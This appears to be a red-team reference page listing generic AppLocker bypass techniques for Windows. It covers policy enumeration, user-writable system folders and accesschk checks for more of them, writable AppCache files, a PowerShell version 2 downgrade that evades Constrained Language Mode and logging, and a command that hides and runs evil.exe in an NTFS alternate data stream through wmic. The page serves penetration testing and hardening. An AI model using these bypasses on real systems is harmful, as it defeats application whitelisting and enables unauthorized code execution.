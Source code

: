 # AppLocker Bypasses

* This list contains generic methods of bypassing AppLocker.

### AppLocker Enumeration&#x20;

```
(Get-AppLockerPolicy -Local).RuleCollections

Get-ChildItem -Path HKLM:Software\Policies\Microsoft\Windows\SrpV2 -Recurse

reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SrpV2\Exe\
```

### Placing files in writeable paths

* The following folders are by default writable by normal users (depends on Windows version - This is from W10 1803)

```
C:\Windows\Tasks 
C:\Windows\Temp 
C:\windows\tracing
C:\Windows\Registration\CRMLog
C:\Windows\System32\FxsTmp
C:\Windows\System32\com\dmp
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\PRINTERS
C:\Windows\System32\spool\SERVERS
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)
C:\Windows\SysWOW64\FxsTmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```

### Checking for Access&#x20;

* You can check the for additional paths by running accesschk from sysinternals and supplying these commands:

```
accesschk -w -s -q -u Users "C:\Program Files" >> programfiles.txt
accesschk -w -s -q -u Everyone "C:\Program Files" >> programfiles.txt
accesschk -w -s -q -u "Authenticated Users" "C:\Program Files" >> programfiles.txt
accesschk -w -s -q -u Interactive "C:\Program Files" >> programfiles.txt

accesschk -w -s -q -u Users "C:\Program Files (x86)" >> programfilesx86.txt
accesschk -w -s -q -u Everyone "C:\Program Files (x86)" >> programfilesx86.txt
accesschk -w -s -q -u "Authenticated Users" "C:\Program Files (x86)" >> programfilesx86.txt
accesschk -w -s -q -u Interactive "C:\Program Files (x86)" >> programfilesx86.txt

accesschk -w -s -q -u Users "C:\Windows" >> windows.txt
accesschk -w -s -q -u Everyone "C:\Windows" >> windows.txt
accesschk -w -s -q -u "Authenticated Users" "C:\Windows" >> windows.txt
accesschk -w -s -q -u Interactive "C:\Windows" >> windows.txt
```

### User writeable files

* There are cases where files are writeable by the user and can be used to bypass AppLocker. One such known case is 3 files under C:\windows\system32\AppLocker called:
  * `AppCache.dat`
  * `AppCache.dat.LOG1`
  * `AppCache.dat.LOG2`
  * These files are writeable by the first user that logs on to the computer after AppLocker has been deployed to the machine. More details here:
  * [https://oddvar.moe/2019/05/29/a-small-discovery-about-applocker/](https://oddvar.moe/2019/05/29/a-small-discovery-about-applocker/)

### Powershell Version 2

```
Powershell -version 2
```

Bypasses Constrained language mode in PowerShell (and also logging). To fix this Powershell version 2 should be removed from Add/Remove Windows features.

### CMD.exe Bypass&#x20;

* If you are in constrained language mode you can call `cmd.exe` as programs under `System32` are allowed&#x20;

```
cmd.exe /c whoami
```

### NTFS Alternate Data Streams (ADS)

AppLocker rules does not stop things that execute in ADS. More info on that here: [https://hitco.at/blog/howto-prevent-bypassing-applocker-using-alternate-data-streams/](https://hitco.at/blog/howto-prevent-bypassing-applocker-using-alternate-data-streams/) This means you can pipe data to a stream and execute it using many of the different methods: [https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)

Example on adding binary to a writable file under program files (using ADS):

```
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"

wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'
```

\
[https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md)
